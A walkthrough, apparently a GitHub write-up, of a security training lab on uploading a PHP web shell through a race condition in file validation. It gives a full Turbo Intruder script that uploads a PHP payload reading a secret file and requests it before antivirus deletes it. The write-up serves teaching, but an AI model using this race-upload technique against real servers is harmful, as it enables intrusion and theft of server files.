





# Web shell upload via race condition
# Objective
This lab contains a vulnerable image upload function. Although it performs robust validation on any files that are uploaded, it is possible to bypass this validation entirely by exploiting a race condition in the way it processes them.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
### Upload request example
||
|:--:| 
| *Normal upload request* |
||
| *Path to uploaded file* |

Above file upload request and response reveal information about server:
```
Server: Apache/2.4.41 (Ubuntu)
```

### PHP payload upload test
PHP files are not allowed - `only JPG & PNG files are allowed`.
||
|:--:| 
| *PHP files are not allowed* |

## Exploitation
### Exploitation using Turbo Indruder
This webiste probably rely on anti-virus software that checks all files that are uploaded by users. Moreover, files are uploaded directly to the main filesystem and if they do not pass validation they are removed. This opens a possibility for race condition vulnerability:
1. Attacker uploades a malicious file
2. Attacker tries to query the malicious file before it gets deleted in order to trigger PHP payload

This application 
||
|:--:| 
| *Turbo Intruder configuration* |
||
| *PHP payload was successfuly uploaded* |
| *PHP payload was triggered before it was deleted by AV* |

Setup code for Turbo Indruder:
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''POST /my-account/avatar HTTP/2
Host: 0a130028037a5ee783ee471b00e30091.web-security-academy.net
Cookie: session=K1iFzkhOPZdUJUURs0Ygi1gTjWFVa2RP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------149264121618422100411530993523
Content-Length: 546
Origin: https://0a130028037a5ee783ee471b00e30091.web-security-academy.net
Dnt: 1
Referer: https://0a130028037a5ee783ee471b00e30091.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

-----------------------------149264121618422100411530993523
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------149264121618422100411530993523
Content-Disposition: form-data; name="user"

wiener
-----------------------------149264121618422100411530993523
Content-Disposition: form-data; name="csrf"

VKyDRnoywgCuSF3iqleLsUiLxgK41npR
-----------------------------149264121618422100411530993523--
'''

    request2 = '''GET /files/avatars/exploit.php HTTP/2
Host: 0a130028037a5ee783ee471b00e30091.web-security-academy.net
Cookie: session=K1iFzkhOPZdUJUURs0Ygi1gTjWFVa2RP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
If-Modified-Since: Sun, 06 Oct 2024 13:01:11 GMT
If-None-Match: "606-623ce7f962cd9"
Te: trailers

'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```